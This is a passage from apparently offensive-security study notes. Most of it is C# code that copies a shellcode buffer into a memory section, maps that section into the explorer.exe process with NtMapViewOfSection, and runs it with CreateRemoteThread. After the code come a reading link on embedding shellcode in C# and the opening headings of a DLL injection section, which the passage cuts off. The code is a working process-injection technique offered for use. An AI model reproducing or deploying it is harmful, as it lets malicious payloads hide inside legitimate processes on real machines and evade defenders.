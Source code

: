 ```C#
            Console.WriteLine("[*] ptr_local_section_addr: 0x" + String.Format("{0:X}", (ptr_local_section_addr).ToInt64()));

            // Copy the shellcode into the mapped section.
            //memcpy(localSectionAddress, buf, sizeof(buf));
            Marshal.Copy(buf, 0, ptr_local_section_addr, buf.Length);

            // Map a view of the section in the virtual address space of the targeted process.
            var process = Process.GetProcessesByName("explorer")[0];
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, process.Id);
            IntPtr ptr_remote_section_addr = IntPtr.Zero;
            // fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
            UInt32 remote_map_view_status = NtMapViewOfSection(ptr_section_handle, hProcess, ref ptr_remote_section_addr, IntPtr.Zero, IntPtr.Zero, ref local_section_offset, ref buffer_size, 0x2, 0, 0x20);

            if (remote_map_view_status != 0 || ptr_remote_section_addr == IntPtr.Zero)
            {
                Console.WriteLine("[-] An error occured while mapping the view within the remote section.");
                return -1;
            }
            Console.WriteLine("[+] The remote section view's been mapped successfully with PAGE_EXECUTE_READ access.");
            Console.WriteLine("[*] ptr_remote_section_addr: 0x" + String.Format("{0:X}", (ptr_remote_section_addr).ToInt64()));

            // Unmap the view of the section from the current process & close the handle.
            NtUnmapViewOfSection(GetCurrentProcess(), ptr_local_section_addr);
            NtClose(ptr_section_handle);

            CreateRemoteThread(hProcess, IntPtr.Zero, 0, ptr_remote_section_addr, IntPtr.Zero, 0, IntPtr.Zero);
            return 0;
        }
    }
}
```


To read
https://www.fergonez.net/post/shellcode-csharp

To put any kind of shellcode into csharp.


# DLL injection

Sometimes we wantto inject an entire dll inside a code

# DLL injection theory
